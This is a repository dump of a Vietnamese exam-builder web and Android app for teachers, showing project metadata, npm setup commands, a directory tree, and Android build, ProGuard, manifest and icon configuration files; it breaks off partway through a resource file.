









# METADATA

- **Ten du an**: exam-builder
- **Mo ta**: Ung dung tao de kiem tra cho giao vien (Web App)
- **Phien ban**: 1.0.0
- **Tech stack**: Node.js + Express (backend REST API, SQLite qua `sqlite`/`sqlite3`) · Frontend HTML/CSS/JS thuan (khong framework) · Android app (Kotlin + Jetpack Compose) trong `Exam builder for adr/`
- **Dependencies**: @napi-rs/canvas, docx, express, katex, mammoth, multer, node-llama-cpp, pdf-parse, sqlite, sqlite3
- **Dev dependencies**: @babel/core, @babel/preset-env, babel-jest, jest, supertest

## Cai dat & chay (web app)

```bash
npm install
npm start                # chay server: http://localhost:3000 (mac dinh PORT=3000)
npm test                 # chay toan bo test (Jest)
npm run test:coverage    # test + bao cao coverage cho thu muc backend/
```

Cac lenh npm khac dinh nghia trong package.json:
- `npm run start` → node backend/server.js
- `npm run test` → jest
- `npm run test:coverage` → jest --coverage --collectCoverageFrom="backend/**/*.js" --coveragePathIgnorePatterns="server.js|index.js"
- `npm run gen:prompt` → node tools/gen-prompt-module.js && node tools/gen-prompt-variants.js

Bien moi truong: `PORT` (mac dinh 3000), `EXAM_DB_PATH` (mac dinh `backend/exam.db`, tu tao khi chay lan dau).

## Android app (`Exam builder for adr/`)

Mo bang Android Studio hoac build CLI bang Gradle wrapper trong thu muc do. Can JDK 24 (khong dung JBR Java 25 di kem Android Studio) - xem `Exam builder for adr/README.md`.

# DIRECTORY TREE

```
.
├── backend/
│   ├── documentConvert/
│   │   └── docxToPdf.js
│   ├── llm/
│   │   ├── AnthropicProvider.js
│   │   ├── GeminiProvider.js
│   │   ├── ILLMProvider.js
│   │   ├── LocalGgufProvider.js
│   │   ├── OpenAIProvider.js
│   │   ├── promptBuilder.js
│   │   └── ProviderFactory.js
│   ├── parser/
│   │   ├── examCodeGenerator.js
│   │   ├── examRedaction.js
│   │   ├── FileUploadParser.js
│   │   ├── index.js
│   │   ├── IQuestionParser.js
│   │   ├── mathFormat.js
│   │   ├── mathFraction.js
│   │   ├── mathRadical.js
│   │   ├── mathToLatex.js
│   │   ├── package.json
│   │   └── TextPromptParser.js
│   ├── routes/
│   │   ├── archiveRoutes.js
│   │   ├── backgroundRoutes.js
│   │   ├── examRoutes.js
│   │   ├── generateRoutes.js
│   │   ├── modelRoutes.js
│   │   ├── resourceRoutes.js
│   │   ├── settingsRoutes.js
│   │   ├── syncRoutes.js
│   │   ├── templateExportRoutes.js
│   │   ├── templatePromptRoutes.js
│   │   └── templateRoutes.js
│   ├── sync/
│   │   ├── gistClient.js
│   │   └── library.js
│   ├── templateExport/
│   │   ├── assets.js
│   │   └── index.js
│   ├── templatePrompts/
│   │   ├── index.js
│   │   └── rules.js
│   ├── templates/
│   │   ├── assetManifest.js
│   │   ├── repository.js
│   │   ├── seeds.js
│   │   └── validation.js
│   ├── database.js
│   ├── errorHandler.js
│   ├── examValidation.js
│   ├── mutex.js
│   └── server.js
├── documents/
│   ├── LLM_API_DIAGNOSTICS.md
│   ├── PROJECT_CONTEXT.md
│   ├── README.md
│   ├── TEMPLATE_SYSTEM_ARCHITECTURE.md
│   ├── TEMPLATE_SYSTEM_FUTURE_OCR.md
│   ├── TEMPLATE_SYSTEM_PRD.md
│   ├── TEMPLATE_SYSTEM_PROGRESS.md
│   ├── TEMPLATE_SYSTEM_PROMPT_SPEC.md
│   └── TEMPLATE_SYSTEM_TEST_PLAN.md
├── Exam builder for adr/
│   ├── app/
│   │   ├── src/
│   │   │   ├── main/
│   │   │   │   ├── java/
│   │   │   │   │   └── com/
│   │   │   │   │       └── exambuilder/
│   │   │   │   │           └── android/
│   │   │   │   │               ├── data/
│   │   │   │   │               │   ├── dto/
│   │   │   │   │               │   │   └── LibraryDto.kt
│   │   │   │   │               │   ├── AppSettingsStore.kt
│   │   │   │   │               │   ├── ExamArchiveRepository.kt
│   │   │   │   │               │   └── SyncSettingsStore.kt
│   │   │   │   │               ├── export/
│   │   │   │   │               │   ├── DocxExporter.kt
│   │   │   │   │               │   ├── Exports.kt
│   │   │   │   │               │   └── PdfExporter.kt
│   │   │   │   │               ├── math/
│   │   │   │   │               │   ├── LatexImage.kt
│   │   │   │   │               │   ├── MathConvert.kt
│   │   │   │   │               │   ├── MathParser.kt
│   │   │   │   │               │   ├── MathPromote.kt
│   │   │   │   │               │   └── MathText.kt
│   │   │   │   │               ├── model/
│   │   │   │   │               │   ├── Exam.kt
│   │   │   │   │               │   └── TemplateLayout.kt
│   │   │   │   │               ├── sync/
│   │   │   │   │               │   ├── GistClient.kt
│   │   │   │   │               │   ├── LibraryMerge.kt
│   │   │   │   │               │   └── SyncManager.kt
│   │   │   │   │               ├── ui/
│   │   │   │   │               │   ├── navigation/
│   │   │   │   │               │   │   └── ExamBuilderNavHost.kt
│   │   │   │   │               │   ├── screens/
│   │   │   │   │               │   │   ├── ExamBuilderScreen.kt
│   │   │   │   │               │   │   ├── ExportScreen.kt
│   │   │   │   │               │   │   ├── LibraryScreen.kt
│   │   │   │   │               │   │   ├── PreviewScreen.kt
│   │   │   │   │               │   │   ├── QuestionEditorSheet.kt
│   │   │   │   │               │   │   └── SettingsScreen.kt
│   │   │   │   │               │   └── theme/
│   │   │   │   │               │       ├── Color.kt
│   │   │   │   │               │       ├── Palettes.kt
│   │   │   │   │               │       ├── Theme.kt
│   │   │   │   │               │       └── Type.kt
│   │   │   │   │               ├── viewmodel/
│   │   │   │   │               │   ├── ExamViewModel.kt
│   │   │   │   │               │   └── LibraryViewModel.kt
│   │   │   │   │               └── MainActivity.kt
│   │   │   │   ├── res/
│   │   │   │   │   ├── mipmap-anydpi-v26/
│   │   │   │   │   │   ├── ic_launcher_round.xml
│   │   │   │   │   │   └── ic_launcher.xml
│   │   │   │   │   ├── mipmap-hdpi/
│   │   │   │   │   │   ├── ic_launcher_foreground.png
│   │   │   │   │   │   ├── ic_launcher_round.png
│   │   │   │   │   │   └── ic_launcher.png
│   │   │   │   │   ├── mipmap-mdpi/
│   │   │   │   │   │   ├── ic_launcher_foreground.png
│   │   │   │   │   │   ├── ic_launcher_round.png
│   │   │   │   │   │   └── ic_launcher.png
│   │   │   │   │   ├── mipmap-xhdpi/
│   │   │   │   │   │   ├── ic_launcher_foreground.png
│   │   │   │   │   │   ├── ic_launcher_round.png
│   │   │   │   │   │   └── ic_launcher.png
│   │   │   │   │   ├── mipmap-xxhdpi/
│   │   │   │   │   │   ├── ic_launcher_foreground.png
│   │   │   │   │   │   ├── ic_launcher_round.png
│   │   │   │   │   │   └── ic_launcher.png
│   │   │   │   │   ├── mipmap-xxxhdpi/
│   │   │   │   │   │   ├── ic_launcher_foreground.png
│   │   │   │   │   │   ├── ic_launcher_round.png
│   │   │   │   │   │   └── ic_launcher.png
│   │   │   │   │   ├── values/
│   │   │   │   │   │   ├── ic_launcher_background.xml
│   │   │   │   │   │   ├── strings.xml
│   │   │   │   │   │   └── themes.xml
│   │   │   │   │   └── xml/
│   │   │   │   │       ├── backup_rules.xml
│   │   │   │   │       ├── data_extraction_rules.xml
│   │   │   │   │       └── file_paths.xml
│   │   │   │   └── AndroidManifest.xml
│   │   │   └── test/
│   │   │       └── java/
│   │   │           └── com/
│   │   │               └── exambuilder/
│   │   │                   └── android/
│   │   │                       ├── data/
│   │   │                       │   └── TemplateBindingDtoTest.kt
│   │   │                       ├── math/
│   │   │                       │   └── MathPromoteTest.kt
│   │   │                       └── model/
│   │   │                           └── TemplateLayoutTest.kt
│   │   ├── build.gradle.kts
│   │   └── proguard-rules.pro
│   ├── gradle/
│   │   └── wrapper/
│   │       └── gradle-wrapper.properties
│   ├── .gitignore
│   ├── build.gradle.kts
│   ├── gradle.properties
│   ├── README.md
│   └── settings.gradle.kts
├── frontend/
│   ├── index.html
│   ├── promptTemplate.js
│   ├── promptVariants.js
│   ├── script.js
│   ├── style.css
│   ├── templateSystem.css
│   └── templateSystem.js
├── resources/
│   └── image/
│       ├── theme/
│       │   ├── ColdColor.png
│       │   ├── Color Hunt Palette 3368a066a3bfc8dfdbf2efe7.png
│       │   ├── Color Hunt Palette 3e0f8d9564dde4da72eeeeee.png
│       │   ├── Color Hunt Palette 499a13bbdc128eca3c276f27.png
│       │   ├── Color Hunt Palette 601d49bd5579ea9d9dffebb8.png
│       │   ├── Color Hunt Palette e3f2fd90caf92196f30d47a1.png
│       │   ├── Color Hunt Palette e4e0e1d6c0b3ab886d493628.png
│       │   ├── Color Hunt Palette fbefefffe2e2f5cbcbc5b3d3.png
│       │   ├── Color Hunt Palette fdf4d2b0cde6a290b7946d6d.png
│       │   ├── Color Hunt Palette ff9d9dffc5aaeef8cdbbf1d2.png
│       │   ├── Color Hunt Palette ffdcdcfff2ebffe8cdffd6ba.png
│       │   ├── Color Hunt Palette ffeeccffddccffccccfebbcc.png
│       │   ├── Color Hunt Palette fff2c6fff8deaac4f58ca9ff.png
│       │   ├── Color Hunt Palette fff2d7ffe0b5f8c794d8ae7e.png
│       │   ├── DarkColdColor.png
│       │   ├── DarkWinterColor.png
│       │   ├── FallColor.png
│       │   ├── SummerColor.png
│       │   └── WinterColor.png
│       ├── gen-android-icons.js
│       ├── icon.png
│       └── README.md
├── tests/
│   ├── llm/
│   │   ├── OpenAIProvider.test.js
│   │   ├── promptBuilder.test.js
│   │   ├── promptTemplate.test.js
│   │   ├── promptVariants.test.js
│   │   └── ProviderFactory.test.js
│   ├── parser/
│   │   ├── adversarial.test.js
│   │   ├── examCodeGenerator.test.js
│   │   ├── examRedaction.test.js
│   │   ├── FileUploadParser.test.js
│   │   ├── IQuestionParser.test.js
│   │   ├── mathFormat.test.js
│   │   ├── mathFraction.test.js
│   │   ├── mathPromoteVectors.json
│   │   ├── mathPromoteVectors.test.js
│   │   ├── mathRadical.test.js
│   │   ├── mathToLatex.test.js
│   │   └── TextPromptParser.test.js
│   ├── routes/
│   │   ├── archiveRoutes.test.js
│   │   ├── backgroundRoutes.test.js
│   │   ├── examRoutes.adversarial.test.js
│   │   ├── examRoutes.test.js
│   │   ├── generateRoutes.test.js
│   │   ├── modelRoutes.test.js
│   │   ├── resourceRoutes.test.js
│   │   ├── settingsRoutes.test.js
│   │   └── syncRoutes.test.js
│   ├── sync/
│   │   ├── gistClient.test.js
│   │   ├── library.test.js
│   │   └── syncFlow.e2e.test.js
│   ├── templateExport/
│   │   └── templateExport.test.js
│   ├── templatePrompts/
│   │   ├── routes.test.js
│   │   └── templatePrompts.test.js
│   ├── templates/
│   │   ├── domain.test.js
│   │   └── routes.test.js
│   ├── database.test.js
│   └── errorHandler.test.js
├── tools/
│   ├── docx-to-pdf.ps1
│   ├── export-blueprint.js
│   ├── gen-prompt-module.js
│   ├── gen-prompt-variants.js
│   ├── smoke-docx-overlay.cjs
│   ├── smoke-pdf-background-import.cjs
│   └── smoke-template-ui.cjs
├── .gitignore
├── AI_Prompts_Variants.txt
├── babel.config.cjs
├── Chay_ExamBuilder.bat
├── documents.txt
├── Gemini_Prompt_Unified.txt
├── package-lock.json
├── package.json
├── PROMPT_HOP_NHAT_CONG_THUC_TOAN.txt
└── prompt_update.txt
```

# CONFIG FILES

### FILE: .gitignore

```text
node_modules/
backend/exam.db
coverage/
resources/models/

# Ghi chu ca nhan / chua token - KHONG commit
Document.txt

```

### FILE: Exam builder for adr/.gitignore

```text
*.iml
.gradle/
build/
app/build/
local.properties
.idea/
.DS_Store
captures/
.externalNativeBuild/
.cxx/

# Khoa ky release - khong bao gio commit
keystore.properties
*.jks
*.keystore

# APK release da build san (~1.9MB) - de tim, khong commit
ExamBuilder.apk
exam_builder.apk

```

### FILE: Exam builder for adr/app/build.gradle.kts

```kotlin
import java.io.FileInputStream
import java.util.Properties

plugins {
    id("com.android.application")
    id("org.jetbrains.kotlin.android")
    id("org.jetbrains.kotlin.plugin.serialization")
}

// Khoa ky release doc tu keystore.properties (khong commit - xem .gitignore).
// Khong co file -> build release van chay nhung ra APK chua ky (khong cai duoc).
val keystorePropsFile = rootProject.file("keystore.properties")
val keystoreProps = Properties().apply {
    if (keystorePropsFile.exists()) FileInputStream(keystorePropsFile).use { load(it) }
}
val hasReleaseSigning = keystorePropsFile.exists()

android {
    namespace = "com.exambuilder.android"
    compileSdk = 36

    defaultConfig {
        applicationId = "com.exambuilder.android"
        // API 26 (Android 8.0) covers the vast majority of active devices
        // while still allowing java.time / adaptive-icon APIs used here.
        minSdk = 26
        targetSdk = 36
        versionCode = 2
        versionName = "1.1.0"
    }

    signingConfigs {
        if (hasReleaseSigning) {
            create("release") {
                storeFile = rootProject.file(keystoreProps.getProperty("storeFile"))
                storePassword = keystoreProps.getProperty("storePassword")
                keyAlias = keystoreProps.getProperty("keyAlias")
                keyPassword = keystoreProps.getProperty("keyPassword")
            }
        }
    }

    buildTypes {
        release {
            isMinifyEnabled = true
            proguardFiles(getDefaultProguardFile("proguard-android-optimize.txt"), "proguard-rules.pro")
            if (hasReleaseSigning) {
                signingConfig = signingConfigs.getByName("release")
            }
        }
    }

    compileOptions {
        sourceCompatibility = JavaVersion.VERSION_17
        targetCompatibility = JavaVersion.VERSION_17
    }
    kotlinOptions {
        jvmTarget = "17"
    }

    buildFeatures {
        compose = true
    }
    composeOptions {
        kotlinCompilerExtensionVersion = "1.5.14"
    }

    packaging {
        resources.excludes.add("/META-INF/{AL2.0,LGPL2.1}")
    }

    // Ten file APK xuat ra: release -> ExamBuilder.apk, debug -> ExamBuilder-debug.apk
    // (khong con phai copy tay thanh exam_builder.apk nhu truoc).
    applicationVariants.all {
        val variant = this
        outputs.all {
            val output = this as com.android.build.gradle.internal.api.BaseVariantOutputImpl
            output.outputFileName =
                if (variant.buildType.name == "release") "ExamBuilder.apk"
                else "ExamBuilder-${variant.buildType.name}.apk"
        }
    }
}

dependencies {
    implementation("androidx.core:core-ktx:1.13.1")
    implementation("androidx.lifecycle:lifecycle-runtime-ktx:2.8.4")
    implementation("androidx.lifecycle:lifecycle-viewmodel-compose:2.8.4")
    implementation("androidx.lifecycle:lifecycle-runtime-compose:2.8.4")
    implementation("androidx.activity:activity-compose:1.9.1")

    // Kho de (persistence JSON) + dong bo GitHub Gist
    implementation("org.jetbrains.kotlinx:kotlinx-serialization-json:1.6.3")
    implementation("androidx.datastore:datastore-preferences:1.1.1")

    // Render LaTeX that (phan so, can, he phuong trinh \begin{cases}, ma tran...)
    // -> Drawable. Port JLaTeXMath cua noties, font di kem trong AAR, tu init
    // qua ContentProvider. Xem com.exambuilder.android.math.
    implementation("ru.noties:jlatexmath-android:0.2.0")

    val composeBom = platform("androidx.compose:compose-bom:2024.06.00")
    implementation(composeBom)
    androidTestImplementation(composeBom)

    implementation("androidx.compose.ui:ui")
    implementation("androidx.compose.ui:ui-graphics")
    implementation("androidx.compose.ui:ui-tooling-preview")
    implementation("androidx.compose.material3:material3:1.2.1")
    implementation("androidx.compose.material:material-icons-extended")
    implementation("androidx.navigation:navigation-compose:2.7.7")
    implementation("androidx.window:window:1.3.0") // responsive layout / window size class

    testImplementation("junit:junit:4.13.2")
    androidTestImplementation("androidx.test.ext:junit:1.2.1")
    androidTestImplementation("androidx.test.espresso:espresso-core:3.6.1")
    androidTestImplementation("androidx.compose.ui:ui-test-junit4")
    debugImplementation("androidx.compose.ui:ui-tooling")
    debugImplementation("androidx.compose.ui:ui-test-manifest")
}

```

### FILE: Exam builder for adr/app/proguard-rules.pro

```text
# ===== Project =====
# Domain model (mirror schema JSON web) + DTO dong bo Gist: giu nguyen ten field.
-keep class com.exambuilder.android.model.** { *; }
-keep class com.exambuilder.android.data.dto.** { *; }

# ===== kotlinx.serialization =====
# Bo quy tac chuan (README kotlinx.serialization) - neu thieu, R8 se strip cac
# lop $$serializer/Companion.serializer() -> LibraryFile.serializer() nem loi luc chay.
-keepattributes RuntimeVisibleAnnotations,AnnotationDefault,InnerClasses,*Annotation*
-dontnote kotlinx.serialization.**

-keepclassmembers class kotlinx.serialization.json.** {
    *** Companion;
}
-keepclasseswithmembers class kotlinx.serialization.json.** {
    kotlinx.serialization.KSerializer serializer(...);
}

-if @kotlinx.serialization.Serializable class **
-keepclassmembers class <1> {
    static <1>$Companion Companion;
    kotlinx.serialization.KSerializer serializer(...);
}
-if @kotlinx.serialization.Serializable class ** {
    public static ** INSTANCE;
}
-keepclassmembers class <1> {
    public static <1> INSTANCE;
    kotlinx.serialization.KSerializer serializer(...);
}

-keep,includedescriptorclasses class com.exambuilder.android.**$$serializer { *; }
-keepclassmembers class com.exambuilder.android.** {
    *** Companion;
}
-keepclasseswithmembers class com.exambuilder.android.** {
    kotlinx.serialization.KSerializer serializer(...);
}

# ===== androidx.datastore (Preferences) =====
-keep class androidx.datastore.*.** { *; }

# ===== JLaTeXMath (ru.noties:jlatexmath-android) =====
# Engine scilab.forge nap font/symbol qua reflection tu ten lop trong cac file
# XML asset (TeXFormulaSettings.xml ...). Giu nguyen de R8 khong strip.
-keep class org.scilab.forge.jlatexmath.** { *; }
-keep class ru.noties.jlatexmath.** { *; }
-dontwarn org.scilab.forge.jlatexmath.**
-dontwarn ru.noties.jlatexmath.**
-dontwarn java.awt.**
-dontwarn javax.**

```

### FILE: Exam builder for adr/app/src/main/AndroidManifest.xml

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android">

    <uses-permission android:name="android.permission.INTERNET" />

    <application
        android:allowBackup="true"
        android:dataExtractionRules="@xml/data_extraction_rules"
        android:fullBackupContent="@xml/backup_rules"
        android:icon="@mipmap/ic_launcher"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:label="@string/app_name"
        android:supportsRtl="true"
        android:theme="@style/Theme.ExamBuilder">

        <activity
            android:name=".MainActivity"
            android:exported="true"
            android:theme="@style/Theme.ExamBuilder">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>

        <provider
            android:name="androidx.core.content.FileProvider"
            android:authorities="${applicationId}.fileprovider"
            android:exported="false"
            android:grantUriPermissions="true">
            <meta-data
                android:name="android.support.FILE_PROVIDER_PATHS"
                android:resource="@xml/file_paths" />
        </provider>
    </application>
</manifest>

```

### FILE: Exam builder for adr/app/src/main/res/mipmap-anydpi-v26/ic_launcher.xml

```xml
<?xml version="1.0" encoding="utf-8"?>
<adaptive-icon xmlns:android="http://schemas.android.com/apk/res/android">
    <background android:drawable="@color/ic_launcher_background" />
    <foreground android:drawable="@mipmap/ic_launcher_foreground" />
    <monochrome android:drawable="@mipmap/ic_launcher_foreground" />
</adaptive-icon>

```

### FILE: Exam builder for adr/app/src/main/res/mipmap-anydpi-v26/ic_launcher_round.xml

```xml
<?xml version="1.0" encoding="utf-8"?>
<adaptive-icon xmlns:android="http://schemas.android.com/apk/res/android">
    <background android:drawable="@color/ic_launcher_background" />
    <foreground android:drawable="@mipmap/ic_launcher_foreground" />
    <monochrome android:drawable="@mipmap/ic_launcher_foreground" />
</adaptive-icon>

```

### FILE: Exam builder for adr/app/src/main/res/values/ic_launcher_background.xml

```xml
